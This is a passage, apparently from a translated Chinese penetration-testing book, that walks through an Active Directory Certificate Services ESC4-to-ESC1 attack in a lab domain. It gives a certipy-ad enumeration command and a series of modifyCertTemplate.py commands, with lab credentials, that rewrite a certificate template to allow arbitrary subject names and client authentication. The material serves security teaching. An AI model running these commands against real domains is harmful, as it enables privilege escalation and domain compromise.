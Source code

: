 ```
certipy-ad find -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -vulnerable -stdout
```

以下命令的输出如下：

![图 8.28 – khal.drogo 在 ESC4 上具有过多权限](img/B18964_08_28.jpg)

图 8.28 – khal.drogo 在 ESC4 上具有过多权限

接下来的步骤是通过将 `ENROLLEE_SUPPLIES_SUBJECT` 属性添加到模板中，使模板容易受到 ESC1 攻击。为了更好地理解这个攻击，我们将借助 `modifyCertTemplate` 工具，逐步操作。

首先，我们将检查证书的 ACL 和属性：

```
python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -raw
python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -get-acl
```

结果，我们将看到一份属性列表，并确认 `khal.drogo` 对该模板拥有 **写入** 权限。接下来，我们将配置模板，使其满足 ESC1 攻击的要求：

1.  我们将使用以下命令禁用“经理审批”要求：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -value 0 -property mspki-enrollment-flag
    ```

1.  禁用“授权签名”要求：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -value 0 -property mspki-ra-signature
    ```

1.  在请求中启用 SAN 规范：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag
    ```

1.  添加一个允许域认证的 EKU：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -property pkiExtendedKeyUsage -add "Client Authentication"
    ```

1.  应用“应用程序策略”以允许域认证：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property mspki-certificate-application-policy
    ```
